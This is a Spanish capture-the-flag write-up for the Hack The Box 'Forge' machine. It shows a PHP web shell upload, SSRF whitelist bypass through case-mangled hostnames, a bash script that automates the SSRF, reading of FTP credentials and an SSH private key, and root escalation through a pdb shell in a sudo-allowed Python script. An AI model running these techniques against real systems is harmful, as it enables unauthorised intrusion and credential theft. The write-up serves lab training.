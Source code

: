 Forge -> 10.10.11.111
---------------------
Con el script de escaneo en bash hemos descubierto los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.11.111
http://10.10.11.111 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.111], RedirectLocation[http://forge.htb], Title[302 Found]
```
Vamos a meter en el /etc/hosts el nombre Forge.htb.

Entramos y tenemos una galeria de fotos y una ruta para subir una imagen.
Subimos la clásica shell.php  ```<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>``` y nos dan el enlace para visualizarlo:   ```http://forge.htb/uploads/lYl9YmpShrA2sOWeUw96``` donde nos dicen que la foto no se puede visualizar y tiene errores. El asunto esque se inutiliza la
shell porque muestra su codigo y no lo interpreta. Al ponerle por tanto un parametro como ```?cmd=whoami``` da un error 404.   

La otra opcion que tenemos es la de subir una foto por una url. No se puede subir nada de internet porque por motivos de seguridad las maquinas de  hackthebox no tienen salida a internt. Como podemos meter una ruta,  a la que la web le hace una peticion, vamos a intentar un SSRF (mostrar urls de
solo acceso interno, al ser la maquina la que hace la peticion, y no nadie de fuera, las deberia mostrar)

Ponemos ```http://localhost``` y nos dice que esta whitelisteado. Si ponemos ```http://127.1``` (otra manera de referenciar al localhost, no hay  problema). Poniendo el nombre de la maquina ```http://forge.htb``` no, pero si cambiamos mayusculas por minusculas si ```http://ForGe.HtB```. 
Siguiendo el enlace dice que la foto tiene errores pero si le hacemos un curl ya nos da el codigo fuente de la pagina. 

Peticion -> POST a http://forge.htb/upload -> url=http://ForGe.hTb&remote=1

Como ya tenemos como meter el localhost, podemos acceder a subdominios restringidos y demas.
```
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb
Found: test2.forge.htb (Status: 302) [Size: 281]
Found: news.forge.htb (Status: 302) [Size: 280]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb -r
Found: admin.forge.htb (Status: 200) [Size: 27]
```
Me hice un script para que filtre el enlace y le haga una peticion curl (ya que si esperas mucho borra todo lo que hayas subido a/uploads)

```bash
#!/bin/bash

while true
do
	echo -n "$:> " && read url
	link=$(curl -s -X POST http://forge.htb/upload -d "url=$url&remote=1" | grep -oE '<strong><a href=".*?"' | awk '{print $2}' FS="=" | tr -d '"')
	curl -s $link
done
```
```console
└─$ ./forge.sh
$:>
$:> http://aDmIn.FoRgE.HtB
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
$:> http://aDmIn.FoRgE.HtB/announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>;.</li>
$:> ftp://user:heightofsecurity123!@FoRgE.hTb
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```
No deja acceder al ftp directamente, pero nos dice que la ruta ```/uploads?u``` permite mostrar archivos, a esta ruta seguimos accediendo con el SSRF 
ya que el **admin.** no esta expuesto hacia fuera.
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=http://aDmIn.FoRgE.HtB
```
Este /upload?u es de **admin.forge** no el mismo upload que **forge** asi que aunque el otro no lo admita este si.
> upload (normal) -> no ftp
> upload (normal) -> upload(admin)?u=ftp://

```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/user.txt
c8b54a838595536f1e761245432be86a
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/../../../../../
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
```
Como el ftp nos muestra el /home (y no hay nada mas) pues hay que ver si hay un directorio *.ssh*
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/      
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/id_rsa  
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
```
Para explicar todo este lio de una manera mas visual:
![forge htb](https://user-images.githubusercontent.com/96772264/196032318-a1670655-e326-4151-b3b7-c403aa5d30ab.png)


Modifique el script para que guardara esto en un archivo id_rsa y luego ```chmod 600 ./id_rsa```.
```console
└─$ ssh -i id_rsa user@10.10.11.111
```
Ejecuto mi script de enumeracion:
- No hay ni SUIDS ni Capabilities interesantes
- Se puede ejecutar como SUDO sin contraseña: /usr/bin/python3 /opt/remote-manage.py
```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:34142
^C
```
No se que tiene este script:
```console
user@forge:~$ cat /opt/remote-manage.py
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
```
Utiliza la libreria subprocess, ejecutando comandos como ```ps -faux``` pero en un contexto cerrado (o sea hay que eleigr una opcion no puedes meter
input directamente y liarla). 

```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
└─$ ssh -i id_rsa user@10.10.11.111
user@forge:~$ nc 127.0.0.1 38099
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

El asunto esque si pasa una exception (o sea metes algo que no sea ningun comando de los de arriba) sale a pdb

```console
What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) os.system("/bin/bash")
root@forge:/home/user# whoami
root
```

En el directorio /root están tanto la root.txt como un script que borra todo lo que haya en /uploads y que se ejecuta cada poco tiempo.
